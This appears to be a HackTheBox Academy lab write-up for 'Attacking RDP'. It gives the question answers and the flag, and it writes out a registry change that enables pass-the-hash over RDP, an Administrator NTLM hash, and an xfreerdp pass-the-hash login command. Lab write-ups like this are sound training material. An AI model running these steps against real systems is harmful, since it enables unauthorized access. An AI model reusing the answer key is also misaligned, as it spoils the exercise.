

# Section 11: Attacking RDP

Module: 11. Attacking Common Services

---

## Questions & Answers

### 1. What is the name of the file that was left on the Desktop? (Format example: filename.txt)

Context:
```bash
┌─[eu-academy-2]─[10.10.14.184]─[htb-ac-2162140@htb-6kdstm3uyc]─[~]
└──╼ [★]$ rdesktop -u htb-rdp -p HTBRocks! 10.129.203.13
```


**Answer:** `pentest-notes.txt`

---

### 2. Which registry key needs to be changed to allow Pass-the-Hash with the RDP protocol?

**Answer:** `DisableRestrictedAdmin`

---

### 3. Connect via RDP with the Administrator account and submit the flag.txt as you answer.

Context:
- Open Command Prompt and type
```bash
C:\Users\htb-rdp>reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
The operation completed successfully.
```
- Content of the `pentest-notes.txt`:
```
We found a hash from another machine Administrator account, we tried the hash in this computer but it didn't work, it doesn't have SMB or WinRM open, RDP Pass the Hash is not working.

User: Administrator
Hash: 0E14B9D6330BF16C30B1924111104824
```
- RDP as `Administrator`:
```bash
┌─[eu-academy-2]─[10.10.14.184]─[htb-ac-2162140@htb-6kdstm3uyc]─[~]
└──╼ [★]$ KRB5_CONFIG=/dev/null xfreerdp /v:10.129.203.13 /u:Administrator /pth:'0E14B9D6330BF16C30B1924111104824' /dynamic-resolution /cert:ignore +clipboard
```
- In Desktop there is a `flag.txt`

**Answer:** `HTB{RDP_P4$$_Th3_H4$#}`

---

[Back to Module Index](./README.md)
